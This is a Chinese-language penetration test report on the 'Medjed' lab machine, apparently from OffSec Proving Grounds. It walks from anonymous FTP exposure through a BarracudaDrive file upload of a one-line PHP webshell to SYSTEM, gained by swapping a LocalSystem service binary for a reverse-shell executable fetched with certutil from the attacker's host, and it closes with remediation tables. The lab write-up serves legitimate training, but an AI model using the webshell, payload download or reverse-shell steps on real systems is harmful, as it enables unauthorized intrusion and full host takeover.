







Medjed | Web & Windows Penetration Testing Report
作者：Jeff
平台：OffSec Proving Grounds
目標：Medjed，原測試 192.168.159.127，補充復現 192.168.154.127
系統辨識：Windows，依服務指紋與檔案路徑判讀
測試性質：平台實驗靶機練習
成果狀態：已驗證 PHP 命令執行、jerren 存取、服務執行檔替換及 SYSTEM 權限提升，成功讀取 local.txt 與 proof.txt。
01 Executive Summary 執行摘要
本次針對 Medjed 實驗靶機進行滲透測試。測試者在可執行管理員初始化的狀態下，建立 BarracudaDrive 管理員並登入，透過 8000 的檔案介面將 PHP 寫入 XAMPP 網站目錄，再從 45443 觸發命令執行，取得 jerren 反向連線。
後續確認一般已驗證使用者可修改 LocalSystem 服務的執行檔，透過重新命名原檔、放置測試檔與重新開機，成功取得 SYSTEM Shell 並讀取 proof.txt。整體風險評為嚴重。
另確認匿名 FTP 可讀取應用設定檔，該問題為獨立資訊暴露旁支。管理員初始化的可執行狀態是本次 Web 路徑的必要前提，未驗證接管既有管理員帳號。
02 Scope & Methodology 測試範圍與方法
原測試範圍為 192.168.159.127，2026/10/25 補充復現為同一靶機的 192.168.154.127。兩組 IP 分屬不同測試工作階段，原始指令與截圖保留各自 IP。起始條件為沒有主機憑證。流程為服務辨識、SMB 與 FTP 枚舉、Web 介面檢查、跨服務檔案寫入、PHP 命令執行、反向連線與執行檔替換驗證。
本報告依原測試操作紀錄與 2026/10/25 補充復現截圖整理。本次復現補強管理員初始化、登入後檔案權限、PHP 上傳、命令執行、服務 ACL、執行檔替換及 SYSTEM 權限提升證據。原掃描與 FTP 調查仍依先前紀錄整理。所有風險與驗證成果均依現有證據判讀，未確認的結果不列為成功利用。Flag 與秘密值以遮罩代替。
| 工具 | 目的 |
|---|---|
| Nmap | 連接埠與服務辨識 |
| smbmap | SMB 共享存取測試 |
| FTP、wget | 匿名登入與應用檔案下載 |
| 瀏覽器、curl | 檔案介面操作與 PHP 命令觸發 |
| PowerShell、Netcat | 反向連線與檔案讀取 |
| msfvenom、HTTP server、certutil | 測試執行檔產生與傳輸 |
| sc.exe、taskkill、shutdown | 服務、程序及啟動觸發測試 |
03 Attack Path Overview 攻擊路徑總覽
主線
- 枚舉外部服務，確認管理員初始化頁面
- 完成 BarracudaDrive 管理員建立與登入，取得檔案讀寫權限
- 由 8000 的檔案介面寫入 XAMPP 網站目錄
- 透過 45443 觸發 PHP，取得 jerren 命令執行、反向連線及 local.txt
- 利用服務執行檔的 Modify 權限，替換 bd.exe 並重新開機
- whoami 確認 SYSTEM，讀取 proof.txt
獨立旁支：匿名 FTP 讀取應用設定檔，未作為主線必要條件。
FTP 資料暴露為旁支，未將未利用的檔案列為主線必要條件。最終節點由補充復現的 whoami 與 proof.txt 讀取截圖確認。
04 Enumeration 資訊蒐集與分析
4.1 服務辨識與掃描差異
nmap -p- --min-rate 1000 192.168.159.127| 連接埠 | 服務辨識 |
|---|---|
| 135、139、445 | Windows RPC、NetBIOS 與 SMB |
| 3306 | MariaDB 10.3.24 或更新，未授權登入 |
| 8000 | BarracudaServer.com，Windows |
| 30021 | FileZilla 0.9.41 beta，匿名登入獲接受 |
| 33033 | HTTP 403，Action Controller 錯誤頁 |
| 44330 | TLS 服務，Real Time Logic 憑證 |
| 45443 | Apache 2.4.46、PHP 7.3.23，Quiz App |
| 49664 至 49669 | Microsoft Windows RPC |
兩次掃描存在差異：7680 首次開放、第二次關閉。首次開放的 45332 未納入第二次掃描，第二次卻加入 45442 並顯示關閉。報告保留差異，不將兩個埠號當成同一項服務。
SMB 簽章啟用但非必要。本次未執行 SMB Relay，未列為成功攻擊。8000 的 WebDAV 方法輸出提供調查線索，不單獨構成可匿名任意寫入的證據。
4.2 SMB 與 FTP 調查
smbmap 對 445 的輸出為 0 authenticated sessions，共享枚舉時發生讀取錯誤。改查 139 後回報連線錯誤。現有紀錄未取得 SMB 共享。
FTP 匿名登入回傳 230 Logged on，wget 下載內容包含 Rails 設定。routes.rb 未提供實際應用路由，database.yml 指向 SQLite，secrets.yml 含 development、test 的 secret_key_base。未驗證金鑰對執行中的應用是否有效，亦未執行 Cookie 偽造。
4.3 BarracudaDrive 管理員初始化與檔案管理權限
測試者存取 TCP 8000 的 BarracudaDrive 管理介面，觀察到 Set Administrator Account 初始化頁面。完成帳號設定後，系統顯示 Content Management System 登入介面。
以建立的管理員憑證登入後，進入 Web File Server，頁面顯示 /fs/ 的存取權限為 read - write。依測試者補充的操作說明，進入該路徑後可瀏覽 C、D 磁碟。本次附圖另確認可進入 C:\xampp\htdocs，見圖 5-1 與圖 5-2。
此操作確認測試者透過管理員帳號取得檔案管理權限，並非直接透過匿名 WebDAV PUT 上傳。


圖 4-1：BarracudaDrive 管理員初始化頁面。密碼欄位為遮蔽狀態。


圖 4-2：Content Management System 登入介面。


圖 4-3：Web File Server 顯示 /fs/ 具有 read - write 權限。
本次六張截圖未包含 C、D 磁碟根目錄總覽，不另編列圖 4-4。
判讀邊界：證據與操作說明確認管理員初始化、登入及檔案管理權限，未單獨驗證既有管理員存在時，未授權身分是否能重新執行初始化。不將此功能直接定性為驗證繞過或管理員帳號接管。
後續操作將檔案位置從 C 磁碟根目錄改為 C:\xampp\htdocs，再由 45443 觸發。兩個服務共用檔案系統，讓 8000 的寫入能力延伸至 45443 的 PHP 執行。
05 Findings & Exploitation 漏洞發現、利用證據與基本修補方向
F-01 匿名 FTP 暴露應用目錄與設定資料
風險：中。
受影響項目：30021/tcp。
前提：可連線 FTP，無須個人帳號。
E-01 原始輸出摘錄：
Name (192.168.159.127:jeff): Anonymous
331 Password required for anonymous
230 Logged on
ftp> ls
app
bin
config
db
Gemfile
publicwget -m ftp://192.168.159.127:30021下載清單包含 config/database.yml、config/secrets.yml、config/routes.rb 與 Gemfile。秘密值不公開。
影響：未驗證身分讀取應用檔案與設定，增加程式與秘密材料暴露範圍。
判讀邊界：未驗證 FTP 上傳、有效生產憑證或金鑰利用，亦未將此旁支當作 Web Shell 的取得前提。
F-02 檔案介面寫入另一 Web 服務的 PHP 執行目錄
風險：嚴重。
受影響項目：8000 的檔案介面、C:\xampp\htdocs 與 45443 的 Apache/PHP。
必要前提：目標處於可執行管理員初始化的狀態，測試者完成帳號建立與登入後才取得檔案讀寫權限。此條件是本次攻擊路徑的一部分，並未證實能重設或接管既有管理員帳號，詳見第 4.3 節。
測試者建立 PHP：
<?php echo system($_GET["_"]); ?>最初放在 C 磁碟根目錄未成功觸發，改放網站目錄後，透過以下請求執行 whoami：
http://192.168.159.127:45443/shell.php?_=whoamiE-02：跨服務檔案寫入與 PHP 命令執行驗證。原測試記錄回傳 medjed\jerren，以下為補充復現截圖。


圖 5-1：透過已登入的 BarracudaDrive 檔案管理介面，在 C:\xampp\htdocs 選擇上傳 Shell.php。


圖 5-2：htdocs 目錄顯示 Shell.php，確認該目錄具有檔案寫入能力。


圖 5-3：透過 http://192.168.154.127:45443/shell.php?_=whoami 觸發 PHP 命令執行，回傳 medjed\jerren。
驗證結果：已確認測試者透過 BarracudaDrive 檔案管理功能，將 PHP 寫入另一個 Web 服務的執行目錄，以 medjed\jerren 身分執行 Windows 命令。
安全影響：檔案管理寫入權限與 PHP 執行目錄之間缺乏隔離，具有該介面存取權的身分得以透過跨服務檔案寫入達成遠端程式碼執行。
直接在瀏覽器提交 PowerShell 反向連線未成功。後續改以 curl 的 -G 與 --data-urlencode 傳遞 _ 參數，筆記記錄反向連線成功。此操作將含空白與特殊字元的命令當作 URL 參數傳遞，不由現有資料推定每次失敗的確切原因。
E-03 反向連線後的檔案讀取：
PS C:\bd> type C:\Users\jerren\Desktop\local.txt
[FLAG REDACTED]影響：一個服務寫入的檔案由另一服務解譯為 PHP，形成 Windows 命令執行與 jerren 檔案讀取。
判讀邊界：不宣稱已利用 Nmap 列出的 PUT 方法，也不將初始化表單畫面等同於已驗證的匿名管理員接管。
F-03 服務執行檔權限過寬導致 SYSTEM 權限提升
風險：嚴重（Critical）。
漏洞分類：Weak Service Binary Permissions。
驗證狀態：已成功利用，確認 SYSTEM 權限提升。
受影響項目：C:\bd\bd.exe 及父目錄。
前提：已取得 jerren 命令執行、服務執行檔修改權與重新開機能力。
E-04：低權限身分與 NTFS ACL
2026/10/25 復現時，whoami /all 顯示目前身分為 medjed\jerren，Authenticated Users 群組啟用，完整性層級為 Medium。
User Name: medjed\jerren
NT AUTHORITY\Authenticated Users S-1-5-11 Enabled group
Mandatory Label\Medium Mandatory Level S-1-16-8192
SeShutdownPrivilege DisabledPS C:\xampp\htdocs> icacls C:\bd\bd.exe
C:\bd\bd.exe BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
Successfully processed 1 files; Failed processing 0 files
PS C:\xampp\htdocs> icacls C:\bd
C:\bd BUILTIN\Administrators:(I)(OI)(CI)(F)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
Successfully processed 1 files; Failed processing 0 files(I) 代表繼承，(M) 代表 Modify。jerren 所屬的 Authenticated Users 對執行檔具有 Modify，父目錄亦提供修改與子項目繼承授權。
E-05：高權限服務設定
PS C:\xampp\htdocs> sc.exe qc bd
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: bd
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
BINARY_PATH_NAME : "C:\bd\bd.exe"
DISPLAY_NAME : BarracudaDrive ( bd ) service
DEPENDENCIES : Tcpip
SERVICE_START_NAME : LocalSystembd 以 LocalSystem 執行，設定為 AUTO_START，且執行路徑指向可被一般已驗證使用者修改的檔案。此為弱服務執行檔權限，路徑已加引號，不屬於未加引號服務路徑。
E-06：執行檔替換與重新開機
原始測試曾以 certutil 嘗試直接覆蓋執行檔，但未保留成功輸出，不作為替換成功的主要證據。原測試亦記載 taskkill 終止程序遭拒，僅列為歷史操作說明。本次有明確終端證據支持 sc.exe stop bd 遭拒，不將沒有輸出的 taskkill 與本次結果混為一談。
補充復現採先重新命名、再放置測試檔的成功流程。測試程式為 Windows x64 反向連線執行檔，監聽埠為 5555。攻擊機 IP 為 192.168.45.214，與原測試的 192.168.45.215 不同。
PS C:\bd> Rename-Item C:\bd\bd.exe bd.service.exe
PS C:\bd> certutil -urlcache -split -f http://192.168.45.214/bd.exe C:\bd\bd.exe
**** Online ****
0000 ...
1e00
CertUtil: -URLCache command completed successfully.
PS C:\bd> (Get-Item C:\bd\bd.exe).Length
7680
PS C:\bd> shutdown /r /t 0certutil 成功訊息與 7,680 bytes 的檔案大小確認測試檔已放入原服務路徑。檔案大小不代替雜湊比對。停止服務與修改檔案屬不同權限，停止服務遭拒不阻止本次透過重新開機觸發。
E-07：SYSTEM 身分與 proof.txt 讀取
重新開機後，監聽端收到來自 192.168.154.127 的反向連線。下列輸出確認最終身分與檔案讀取：


圖 5-4：復現取得 SYSTEM Shell，並讀取 Administrator 桌面的 proof.txt。Flag 已遮罩。
connect to [192.168.45.214] from (UNKNOWN) [192.168.154.127] 49669
C:\WINDOWS\system32>whoami
nt authority\system
C:\WINDOWS\system32>type C:\Users\Administrator\Desktop\proof.txt
[FLAG REDACTED]漏洞根因與影響：Authenticated Users 可修改 LocalSystem 服務的執行檔，讓一般使用者控制高權限啟動流程。本次已透過替換、重新開機及 whoami，確認從 jerren 提權至 SYSTEM。
5.4 基本修補方向
| Finding ID | 弱點原因 | 建議修補方向 |
|---|---|---|
| F-01 | 匿名 FTP 提供應用與設定檔 | 關閉非必要匿名存取，限制目錄，檢查並輪替已暴露的有效秘密 |
| F-02 | 檔案介面寫入另一服務的執行目錄 | 限制管理介面來源與帳號，分離上傳與 PHP 執行目錄，縮減檔案寫入權 |
| F-03 | Authenticated Users 可修改 LocalSystem 服務執行檔 | 移除一般使用者及 Authenticated Users 對執行檔與父目錄的非必要修改及繼承授權，僅允許受信任管理員或部署帳號更新，並檢查其他高權限服務的 ACL |
以上為基本修補方向，未宣稱完成企業修復或驗收。
證據狀態：E-01 至 E-03 保留 FTP 與初始存取紀錄。E-04 為身分及 ACL，E-05 為服務設定，E-06 為復現成功的替換與重啟流程，E-07 為 SYSTEM 與 proof.txt 驗證。第 4.3 節與 E-02 附六張 Web 操作截圖，E-07 附最終終端截圖。秘密值與 Flag 不公開。
06 Risk Assessment 風險評估
| Finding ID | 風險等級 | 已驗證影響與證據界線 | 修補優先順序 |
|---|---|---|---|
| F-01 | 中 | 匿名登入與設定檔下載，未驗證秘密利用 | P2，限制資料讀取 |
| F-02 | 嚴重 | PHP 命令執行、jerren 反向連線與 local.txt 讀取 | P1，阻斷跨服務寫入 |
| F-03 | 嚴重 | 服務執行檔權限過寬，已驗證 SYSTEM 權限提升 | P1，保護應用執行檔 |
整體風險評為嚴重，依已驗證的主機程式執行與 SYSTEM 提權成果判斷。F-02 的利用前提包含管理員初始化與登入，不評為已驗證的匿名接管。版本僅作服務辨識，不套用未驗證的 CVE。
本次操作包含重新開機，未量測中斷時間或業務影響，故不提供中斷損失數字。風險採定性評級，未計算正式 CVSS 分數。